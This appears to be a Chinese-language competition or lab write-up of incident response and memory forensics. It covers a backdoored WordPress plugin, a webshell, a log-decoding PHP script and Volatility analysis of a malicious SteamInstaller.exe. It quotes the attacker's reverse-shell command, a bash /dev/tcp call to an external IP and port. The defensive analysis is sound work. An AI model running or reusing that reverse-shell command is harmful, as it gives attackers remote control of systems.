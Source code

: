 # 事件响应
## Web Server
### 任务
- 查找并提交存在后门插件的名称与版本号，并指出该后门的功能
- 分析并指出攻击者如何获取到应用管理员权限
- 提交上述攻击所使用的URL以及获取到管理员信息时执行的完整语句（含注释）
- 请阐述攻击者如何在获得管理员权限后，写入Webshell以提升其权限
- 查找攻击者获得写入的Webshell文件绝对路径
- 查看并提交攻击者写入的Webshell内容
- 分析反弹Shell时使用的恶意IP地址和端口
- 分析攻击者在服务器上开启的端口号及其目的
### 调查过程
在webserver中查看历史命令，计划任务，后门用户和端口，进程
存在其他的端口8024
![](attachment/Pasted%20image%2020230220121713.png)
在Web Server查看本机IP后利用同网段主机访问对应的web服务，发现为WordPress的网站，于是在本机去访问插件对应的目录进行调查
`/var/www/html/wp-content/plugins`
发现在 ==hello.php== 中存在后门代码，功能是能够进行sql查询，但是语句经过rot13和base64的加密
![](attachment/Pasted%20image%2020230219141212.png)

版本在文件开头的注释中
![](attachment/Pasted%20image%2020230219141339.png)

在/var/log/apache2 中发现有日志记录，参数名与插件后门一致
![](attachment/Pasted%20image%2020230219145338.png)
在foot-dark.php中又有命令执行相关日志
![](attachment/Pasted%20image%2020230219150410.png)

查看后发现这个页面可以进行命令执行
![](attachment/Pasted%20image%2020230219150548.png)

关于日志中的加密语句，利用php来进行解密会更加合适和快捷
```php
<?php
$file = 'log.txt';
$file_data = file_get_contents($file);
$data_array = explode("\n", $file_data);
foreach($data_array as $sql_str) {
	echo $sql_str;
	$trans = base64_decode(str_rot13(urldecode($sql_str)));
	echo $trans;
	file_put_content('out.txt',$trans.PHP_EOL, FILE_APPEND);
}
?>
```
细看解密后的log后会发现有一行看了user表，执行后效果是这样
![](attachment/Pasted%20image%2020230220121458.png)
获得用户名与密码
同样对日志中的webshell相关的日志url解码分析
![](attachment/Pasted%20image%2020230220140730.png)
反弹shell
`bash -c "bash i >& /dev/tcp/0x1d205d4/12450 0>&1"`
IP:1.210.5.212
## Cache server
### 工作任务
- 分析攻击者在服务器上开启的端口号及其目的查找并提交攻击者隐藏在系统中的恶意程序的完整路径（多个）
- 分析恶意程序的类型与目的
- 查找并提交被篡改的系统程序名称
- 分析攻击者如何使恶意程序维持启动
- 分别使用一句话简要描述载入脚本（sh文件）中各模块的功能与目的
### 调查过程


# 数字调查取证
## Dump.raw
### 工作任务
- 识别内存中的恶意进程
- 查找并提交恶意程序在硬盘中上的完整路径
- 分析PE文件以描述其行为
- 分析PE文件寻找攻击者向外传递收集到的信息发送方的地址
### 调查过程
查看镜像类型
![](attachments/Pasted%20image%2020230227090948.png)
查看进程并输入到文本
volatility -f  \[filename\] --profile=\[imageinfo\]  pslist > pslist.txt
![](attachments/Pasted%20image%2020230227091850.png)
volatility -f  \[filename\] --profile=\[imageinfo\]  pstree > pstree.txt
![](attachments/Pasted%20image%2020230227091918.png)
导出对应进程文件
volatility -f \[filename\] --profile=\[imageinfo\] memdump -p \[PID\] -D ./

volatility -f\[filename\] --profile=\[imageinfo\]  filescan
![](attachments/Pasted%20image%2020230227092450.png)
文件路径： `\Device\HarddiskVolume1\User\IEUser\Downloads\SteamInstaller.exe`
在这个dmp文件里面找敏感内容
![](attachments/Pasted%20image%2020230227093739.png)

将exe文件导出
volatility -f \[filename\] --profile=\[imageinfo\] dumpfiles -Q \[偏移地址\] --dump-dir ./
IDA进行逆向
![](attachments/Pasted%20image%2020230227104206.png)